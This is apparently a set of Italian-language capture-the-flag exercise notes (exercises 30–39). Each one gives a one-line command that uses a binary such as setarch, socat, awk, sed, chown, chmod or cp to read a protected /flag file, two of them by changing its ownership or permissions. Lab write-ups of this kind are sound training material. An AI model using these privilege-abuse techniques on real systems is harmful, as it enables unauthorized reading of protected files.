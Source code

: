 ## Esercizio 30 setarch
```
setarch $(arch) cat /flag
```

## Esercizio 31 watch 
```
watch -x cat /flag
```

## Esercizio 32 socat
```
socat -u /flag -
```

## Esercizio 33 whiptail 
```
whiptail --textbox /flag 10 30
```

## Esercizio 34 awk
```
awk "//" /flag
```

## Esercizio 35 sed
```
sed '' /flag
```

## Esercizio 36 ed
```
ed /flag
> p
```

## Esercizio 37 chown
```
chown hacker /flag 
cat /flag
```

## Esercizio 38 chmod
```
chmod 777 /flag
cat /flag
```

## Esercizio 39 cp
```
cp --no-preserve-all /flag ./file
cat file
```
